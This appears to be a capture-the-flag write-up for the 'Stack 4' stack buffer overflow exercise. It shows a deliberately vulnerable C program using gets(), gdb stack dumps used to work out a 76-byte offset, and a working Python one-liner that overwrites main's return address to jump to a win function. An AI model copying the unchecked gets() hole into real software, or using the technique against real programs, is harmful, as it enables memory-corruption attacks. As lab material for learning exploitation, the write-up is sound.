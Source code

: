 # STACK 4

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv) 	// we'll overwrite the return value of main function
{
  char buffer[64];

  gets(buffer);  					// vuln is here, gets function does not limit size of input
}
```

## IDEA

- The idea is change the return address of main function to address of win function, so when main function finished, it will return to win function instead of return to the function that called the main function.

## DETAIL

- 0x080483f4 is win address, this address will be "\xf4\x83\x04\x08" in payload

- We can find the return address of main function when we run inside main function, it's on top of stack: 0xb7eadc76, this is because we have not push ebp yet or do something inside main function.

```
				(gdb) x/50xw$esp
				0xbffffcbc:     0xb7eadc76      0x00000001      0xbffffd64      0xbffffd6c
				0xbffffccc:     0xb7fe1848      0xbffffd20      0xffffffff      0xb7ffeff4
				0xbffffcdc:     0x0804824b      0x00000001      0xbffffd20      0xb7ff0626
													.....
```

- And we has ebp's value of the function that call the main function:

```
				(gdb) info registers
				eax            0xbffffd64       -1073742492
				ecx            0xf04f1569       -263252631
				edx            0x1      1
				ebx            0xb7fd7ff4       -1208123404
				esp            0xbffffcbc       0xbffffcbc
				ebp            0xbffffd38       0xbffffd38
									.....
````

- So address of return address is 0xbffffcbc, we will enter some input to find where "buffer" variable write on stack, and then we calculate the distance to overwrite.

```
				aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
				16      in stack4/stack4.c
				0x0804841d <main+21>:    c9     leave
				0x0804841e <main+22>:    c3     ret
				(gdb) x/50xw$esp
				0xbffffc60:     0xbffffc70      0xb7ec6165					0xbffffc78				0xb7eada75

	start ->    0xbffffc70:     0x61616161      0x61616161					0x61616161				0x61616161
				0xbffffc80:     0x61616161      0x61616161					0x61616161				0x61616161
				0xbffffc90:     0x61616161      0x61616161					0x61616161				0x61616161
				0xbffffca0:     0x61616161      0x61616161					0x61616161				0x61616161   <- end 
				0xbffffcb0:    (0x08048400      0x00000000)	<- padding 		0xbffffd38 <- (ebp)		0xb7eadc76   <- this is ret

				0xbffffcc0:     0x00000001      0xbffffd64					0xbffffd6c				0xb7fe1848
														......
```

- This challenge has some difference from stack3 challenge, the distance between "buffer" variable and return address of main function is not sizeof(buffer) + sizeof(stack), we have some extra space for padding, I don't have much understand about that, but when I debug this program, I see it has 2*4 bytes for padding.

- So, we have to overwrite:
	+ 64 bytes for buffer
	+ 4 bytes for ebp reservation on stack
	+ 8 bytes for padding
	> total we have to overwrite 64 + 4 + 8 = 76 bytes to reach to return address of main function

- He he, Let's make a payload to exploit this :3

## EXPLOIT

- Payload:

```
		python -c 'print("a"*76 + "\xf4\x83\x04\x08")' | ./stack4
```

## RESULT
		$ python -c 'print("a"*76 + "\xf4\x83\x04\x08")' | ./stack4
		code flow successfully changed
		Segmentation fault
